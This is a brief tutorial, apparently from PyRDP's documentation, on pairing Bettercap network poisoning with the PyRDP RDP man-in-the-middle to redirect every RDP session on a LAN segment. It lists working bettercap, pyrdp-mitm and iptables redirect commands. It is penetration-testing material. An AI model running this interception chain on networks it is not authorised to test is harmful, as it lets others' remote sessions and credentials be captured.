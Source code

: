# Run PyRDP alongisde Bettercap

Here is a short tutorial on how to combine the MITM RPD tool and Bettercap to
redirect all RDP sessions on a LAN segment. By default Bettercap poisons only
the gateway so connections will need to cross the gateway for them to be
poisoned.

Start bettercap in normal mode (you can use other options if you like).

    bettercap -I <interface>

Run the PyRDP mitm

    python3 bin/pyrdp-mitm.py <dst-rdp-machine>

Add this iptables rule to redirect all traffic to the mitm

    iptables -t nat -A PREROUTING -p tcp --dport 3389 -j REDIRECT --to-ports 3389

Have fun!

Once finished you can remove the iptables rule with

    iptables -t nat -D PREROUTING -p tcp --dport 3389 -j REDIRECT --to-ports 3389
